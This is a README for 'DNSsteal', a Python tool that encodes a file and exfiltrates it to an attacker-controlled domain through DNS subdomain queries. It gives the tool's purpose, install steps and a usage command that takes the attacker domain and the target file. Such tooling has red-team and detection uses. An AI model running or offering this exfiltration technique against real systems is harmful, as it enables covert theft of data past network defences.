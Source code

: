 ![logo](logo.jpg)

**DNSsteal** -- An automatic DNS exfiltration tool

# Purpose
Attacker's frequently use expected protocols to exfiltrate information out of victim environments. DNS can be particularly effective for exfiltration given the protocol's ubiquitous use in practically every environment. 

This tool takes an input file, encodes the data, and exfiltrates the data to an attacker-controlled domain using subdomains.

# Requirements
Run the command:
```python
pip3 install -r requirements.txt
# installs argparse
```
The tool uses `base64`, `subprocess`, `os`, and `datetime` which are already part of the default Python3 installation.

This tool was written in Python3. <br>
This tool was tested on both Windows and Unix.

# Usage
Run the tool:
```python
python3 client.py -d <attacker domain> -f <data file>
```
The tool accepts the following arguments:
```python
-d, --domain       Attacker-controlled domain    # required
-f, --file         Target data file to exfiltrate #required
-s, --server       IP address of DNS server to query #optional
-h, --help         Show help menu

```


# Future Work
* Introduce sequencing mechanism for DNS packets